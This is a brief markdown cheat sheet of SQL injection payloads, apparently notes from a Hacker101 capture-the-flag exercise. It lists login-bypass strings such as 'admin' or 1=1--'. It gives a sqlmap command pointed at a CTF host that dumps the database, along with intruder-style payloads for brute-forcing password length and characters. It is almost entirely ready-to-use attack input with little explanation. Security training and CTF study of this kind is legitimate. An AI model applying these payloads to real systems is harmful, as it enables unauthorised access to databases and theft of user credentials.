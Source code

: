 # SQLi (Structured Query Language Injection)

`admin' or 1=1--`

`admin" or 1=1#`

`admin' or '1'='1`

`sqlmap -u https://ba4aeefe40a56952d13df303174a9ff9.ctf.hacker101.com/fetch?id=1 /login --data "username=a&password=b" -p username --dump`

`username=' or LENGTH(password)=§1§#&password=administrator username=' or username LIKE '§`_`§§`_`§§`_`§§`_`§§`_`§§`_`§§`_`§§`_`§'#&password=administrator`
